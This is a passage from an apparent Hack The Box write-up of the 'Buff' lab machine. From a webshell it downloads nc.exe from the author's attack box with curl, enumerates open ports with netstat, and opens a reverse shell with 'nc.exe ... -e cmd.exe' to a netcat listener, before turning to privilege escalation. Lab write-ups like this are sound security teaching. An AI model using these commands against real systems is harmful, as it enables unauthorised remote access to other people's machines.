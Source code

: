 ```bash
sudo python3 -m http.server 80 --bind 10.10.14.57
```
Where 10.10.14.57 is replaced with whatever your IP address is in the htb network (you can check by running ```ifconfig tun0```). On the buff box, run from the webshell:
```
curl http://10.10.14.57/nc.exe --output nc.exe
```
to download and save the binary. Using ```netstat -an | find /i "listening"``` we can find the ports that are open on the machine we can use to open our reverse shell on.
```
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    10.10.10.198:139       0.0.0.0:0              LISTENING
  TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING
  TCP    [::]:135               [::]:0                 LISTENING
  TCP    [::]:445               [::]:0                 LISTENING
  TCP    [::]:7680              [::]:0                 LISTENING
  TCP    [::]:8080              [::]:0                 LISTENING
  TCP    [::]:49664             [::]:0                 LISTENING
  TCP    [::]:49665             [::]:0                 LISTENING
  TCP    [::]:49666             [::]:0                 LISTENING
  TCP    [::]:49667             [::]:0                 LISTENING
  TCP    [::]:49668             [::]:0                 LISTENING
  TCP    [::]:49669             [::]:0                 LISTENING
  ```
I chose to use 7680 as our reverse shell port. On our attack box, we should have netcat already installed, and we can set up the listener by running 
```bash
sudo nc -nvlp 7680
```
On the Buff machine, we set up the reverse by calling 
```
nc.exe 10.10.14.57 7680 -e cmd.exe
```
The "-e cmd.exe" part specifically tells nc.exe to run the cmd.exe binary when you connect to the listener, granting the listener access to the cmd program.

Once that works, we have a stable shell running to our Buff machine. 

## Enumeration for Privilege Escalation
We now have a stable shell as a non-priviledged user, and can access the user root flag. We now need to work out a way to become a administrator and gain access to the whole system, including the root flag.
